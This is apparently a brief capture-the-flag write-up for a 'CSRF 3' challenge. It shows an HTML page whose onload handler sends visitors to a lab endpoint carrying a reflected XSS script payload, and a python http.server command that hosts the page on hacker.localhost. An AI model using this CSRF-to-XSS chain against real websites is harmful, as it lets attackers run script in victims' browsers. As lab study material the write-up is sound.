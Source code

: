 # CSRF 3

Triggering XSS through CSRF

index.html:

```html
<!DOCTYPE html>
<html>
<body onload="window.location='http://challenge.localhost/ephemeral?msg='+'<'+'script>alert(&quot;PWNED&quot;)</script'+'>'"></body>
</html>
```

Run in the directory of index.html:

```shell
python3 -m http.server 1337 --bind hacker.localhost
```
